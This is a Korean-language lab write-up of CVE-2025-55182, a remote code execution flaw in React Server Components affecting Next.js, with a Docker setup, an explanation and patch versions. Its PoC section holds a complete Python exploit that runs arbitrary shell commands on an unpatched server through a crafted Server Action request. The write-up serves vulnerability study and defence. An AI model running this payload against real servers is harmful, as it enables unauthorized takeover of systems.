


# CVE-2025-55182 - React

**Contributors**

-   [김서진(@Daru0613)](https://github.com/Daru0613)

<br/>

## 1. 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE ID | CVE-2025-55182 |
| 영향받는 패키지 | `react-server-dom-webpack`, `react-server-dom-parcel`, `react-server-dom-turbopack` (19.0.0, 19.1.0, 19.1.1, 19.2.0) |
| 영향받는 프레임워크 | Next.js 15.x |

React Server Components는 서버에서 컴포넌트를 렌더링해 클라이언트로 전달하는 기능이다. 이 과정에서 데이터를 직렬화·역직렬화하는데, 역직렬화 시 입력값 검증이 부족하다. 공격자가 조작된 데이터를 보내면 서버가 이를 신뢰하고 처리하다가 임의 명령을 실행하게 된다. 
<br/>

## 2. 환경 구성

**필요 도구**: Docker, Docker Compose, Python 3 (표준 라이브러리만 사용)

**docker-compose.yml**
```yaml
services:
  web:
    image: vulhub/nextjs:15.5.6
    ports:
      - "3000:3000"
```

- 취약한 Next.js 15.5.6이 이미 빌드된 이미지를 받아 3000번 포트로 띄운다.

**실행**
```bash
docker compose up -d
```
- web 컨테이너 상태가 Up이면 정상. `http://localhost:3000` 접속으로 확인 가능.



<br/>

## 3. 취약 조건

- React 19.0.0 / 19.1.0 / 19.1.1 / 19.2.0 사용
- Next.js 등에서 Server Actions 기능 활성화
- 해당 서버가 외부에서 접근 가능

세 조건만 맞으면 별도 권한 없이 공격 가능하다.

<br/>

## 4. 재현 절차

1. **docker-compose.yml** 파일과 **poc.py** 파일이 함께 있는 폴더 경로로 이동
2. **docker compose up -d**로 서버 실행
3. **docker compose ps**로 정상 기동 확인 (선택 사항)
4. **python3 poc.py http://localhost:3000 id** 실행 (조작된 데이터를 담은 요청 전송)
5. 응답 헤더 "**x-action-redirect**"에서 명령 실행 결과 확인

<br/>

## 5. PoC 코드

python의 표준 라이브러리만 사용해 추가 설치가 필요 없다.

```python
#!/usr/bin/env python3
import sys
import json
import urllib.request

BOUNDARY = "----WebKitFormBoundaryx8jO2oVc6SWP3Sad"


def build_multipart(fields):
    parts = []
    for name, value in fields:
        parts.append(
            f"--{BOUNDARY}\r\n"
            f'Content-Disposition: form-data; name="{name}"\r\n'
            f"Content-Type: application/json\r\n\r\n"
            f"{value}\r\n"
        )
    parts.append(f"--{BOUNDARY}--\r\n")
    return "".join(parts).encode()


def main():
    target = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000"
    cmd = sys.argv[2] if len(sys.argv) > 2 else "id"

    field0 = {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": -1,
        "value": '{"then":"$B1337"}',
        "_response": {
            "_prefix": (
                "var res=process.mainModule.require('child_process')"
                f".execSync('{cmd}').toString().trim();;"
                "throw Object.assign(new Error('NEXT_REDIRECT'),"
                "{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});"
            ),
            "_chunks": "$Q2",
            "_formData": {"get": "$1:constructor:constructor"},
        },
    }

    body = build_multipart([
        ("0", json.dumps(field0)),
        ("1", '"$@0"'),
        ("2", "[]"),
    ])

    req = urllib.request.Request(
        target,
        data=body,
        method="POST",
        headers={
            "Next-Action": "x",
            "Content-Type": f"multipart/form-data; boundary={BOUNDARY}",
        },
    )

    try:
        resp = urllib.request.urlopen(req, timeout=10)
        status, headers = resp.status, resp.headers
    except urllib.request.HTTPError as e:
        status, headers = e.code, e.headers

    print("Status:", status)
    print("x-action-redirect:", headers.get("x-action-redirect", "(헤더 없음, 응답 전체 확인 필요)"))


if __name__ == "__main__":
    main()
```

**동작 원리**: 가짜 데이터 조각이 자기 자신을 참조하게 만들어 서버가 이를 정상 데이터로 착각하게 한다. 이후 `constructor:constructor` 경로를 검증 없이 따라가면 JS의 `Function` 생성자에 도달하고, 여기에 공격자가 넣은 명령어가 그대로 실행된다.

<br/>

## 6. 실행 결과



**x-action-redirect**에 id 명령 결과인 `uid=0(root) gid=0(root) groups=0(root)`가 노출됐다. 인증 없는 요청 하나로 root 권한 명령 실행이 확인된 것이다.

<br/>

## 7. 대응 방안

- React 19.0.1 / 19.1.2 / 19.2.1 이상으로 업그레이드
- Next.js는 15.0.5 / 15.1.9 / 15.2.6 / 15.3.6 / 15.4.8 / 15.5.7 / 16.0.7 이상 적용

<br/>

## 8. 참고 자료

- [vulhub/vulhub - react/CVE-2025-55182](https://github.com/vulhub/vulhub/tree/master/react/CVE-2025-55182)
- [ejpir/CVE-2025-55182-research](https://github.com/ejpir/CVE-2025-55182-research)
